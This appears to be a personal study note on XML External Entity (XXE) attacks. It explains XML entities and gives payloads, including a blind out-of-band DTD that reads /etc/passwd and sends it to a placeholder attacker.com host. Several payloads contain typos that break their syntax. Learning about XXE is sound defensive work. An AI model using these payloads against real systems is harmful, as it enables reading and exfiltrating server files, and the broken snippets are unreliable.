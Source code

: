 # XXE - XML EXTERNAL ENTITY
### WHAT IS XML
XML stands for extensible mark of language. It is used for data transportation. It supprots custom tags just like json key.
It is used for data storage also

#### How XML Document Looks

```xml
<?xml version="1.0"?>
<Person>
<Name>Rahim</Name>
<Age>20</Age>
</Person>
```
- First Line Is XML Metadata
- All XML data should have only 1 Root ELement Here We have Person

#### What is XML Entity 
- It is like XML variable. We can assign value in entity and use it multiple time in different parts.
- These entities are defined in a seprate part of the document called DTD / Document Type Declaration.

```xml
<?xml version="1.0" ?>
<!DOCTYPE Person [
	<!ENTITY name "Rahim">
]> 
<Person>
	<Name>&name;</Name>
	<Age>20</Age>
</Person>
```

### Types Of Entities
- General 
- Parameter
- Pre Defined Entities

### Example Of XXE
```xml
<?xml version="1.0"?>
<!DOCTYPE XXE[
	<!ENTITY subscribe SYSTEM "secret.txt">
]>
<pwn>
&subscribe;
</pwn>
```
- Here System Keyword Is Used To Fetch External Resource And store it in Entity
- It supports protocols as : file:// , http:// , ftp://

### Types Of XXE
- InBand
- Error Based
_ Out Of Band

### Exploiting The Functions Of XML
- We can feed a entity inside another enitiy 
- We can reference a remote entity inside a DTD
- Defined : 
```xml
<?xml version="1.0"?>
<!DOCTYPE Pwn [
	<!ENTITY % parameter_entity "<!ENTITY general_entity 'Rahim'>">
	%parameter_entity;
]>
<pwn>&general_entity</pwn>
```
- After Parsing It Becomes :
```xml
<?xml version="1.0"?>
<!DOCTYPE Pwn [
	<!ENTITY % parameter_entity "<!ENTITY general_entity 'Rahim'>">
	<!ENTITY general_entity 'Rahim'>
]>
<pwn>&general_entity</pwn>
```
#### Instead of adding random Value we can referecne remote dtd
```xml
<?xml version="1.0"?>
<!DOCTYPE Pwn [
	<!ENTITY % parameter_entity "http://attacker.com/exploit.dtd">
	%parameter_entity;
]>
<pwn>&general_entity</pwn>
```
- Now exploit.dtd contents will be replaced in  the place of %parameter_entity;

## Exploiting Blind XXE
- payload
```xml
<?xml version="1.0" ?>
<!DOCTYPE data SYSTEM "http://attacker.com/evil.dtd" >
<data>&send;</data>
```

- Evil.dtd File Contents
```xml
<!ENITY % passwd SYSTEM "file:///etc/passwd">
<!ENTITY % wrapper "<!ENTITY send SYSTEM 'http://attacker.com?%passwd;'">
%wrapper;
```
### CheckOut PwnFunction Video On XXE
### STOK's Videp On Reading Files through  SVG Upload , Pdf Gen, Upload etc
### DOS attack using XXE
### HTB fulcrum Lab / IPPSEC walkthrough
### For RCE using XXE checkout awessom xml works by nicolas greqoire
















